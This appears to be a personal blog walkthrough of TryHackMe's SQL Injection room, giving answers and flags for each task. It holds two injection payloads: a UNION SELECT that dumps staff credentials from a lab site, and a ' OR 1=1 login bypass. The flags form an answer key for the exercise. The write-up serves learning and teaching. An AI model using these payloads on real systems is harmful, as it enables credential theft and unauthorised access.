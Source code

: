 +++
date = '2025-09-25T14:37:06+07:00'
title = 'TryHackMe - SQL Injection Room Walkthrough'
tags = ['TryHackMe']
description = "Learn how to detect and exploit SQL Injection vulnerabilities"
draft = false

[cover]
  image = '/images/posts/tryhackme-sql-injection.png'
  alt = 'TryHackMe SQL Injection Room'
  caption = 'TryHackMe SQL Injection Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> SQL Injection Room - Learn how to detect and exploit SQL Injection vulnerabilities

## Overview

-   **Room URL:** [https://tryhackme.com/room/sqlinjectionlm](https://tryhackme.com/room/sqlinjectionlm)
-   **Difficulty:** Medium
-   **Time to complete:** 30

## Walkthrough

### 1. Brief

-   What does SQL stand for?<br />

**=> Answer: `Structured Query Language`**

### 2. What is a Database?

-   What is the acronym for the software that controls a database?<br />

**=> Answer: `DBMS`**

-   <p>What is the name of the grid-like structure which holds the data?<br /></p>

**=> Answer: `table`**

### 3. What is SQL?

-   What SQL statement is used to retrieve data?<br />

**=> Answer: `SELECT`**

-   <p>What SQL clause can be used to retrieve data from multiple tables?<br /></p>

**=> Answer: `UNION`**

-   <p>What SQL statement is used to add data?<br /></p>

**=> Answer: `INSERT`**

### 4. What is SQL Injection?

-   What character signifies the end of an SQL query?<br />

**=> Answer: `;`**

### 5. In-Band SQLi

-   What is the flag after completing level 1?<br />

-   Enter the url to get the martin's password:

```
https://website.thm/article?id=0 UNION SELECT 1,2, GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR '<br>') FROM staff_users--
```

![Guide image](/images/posts/sql-injection-1.png)

**=> Answer: `THM{SQL_INJECTION_3840}`**

### 6. Blind SQLi - Authentication Bypass

-   What is the flag after completing level two? (and moving to level 3)<br />

-   Enter this value to the password field to bypass the login form

```
' OR 1=1;--
```

**=> Answer: `THM{SQL_INJECTION_9581}`**

### 7. Blind SQLi - Boolean Based

-   What is the flag after completing level three?<br />

**=> Answer: `THM{SQL_INJECTION_1093}`**

### 8. Blind SQLi - Time Based

-   What is the final flag after completing level four?<br />

**=> Answer: `THM{SQL_INJECTION_MASTER}`**

### 9. Out-of-Band SQLi

-   Name a protocol beginning with D that can be used to exfiltrate data from a database.<br />

**=> Answer: `DNS`**

### 10. Remediation

-   Name a method of protecting yourself from an SQL Injection exploit.<br />

**=> Answer: `Prepared Statements`**
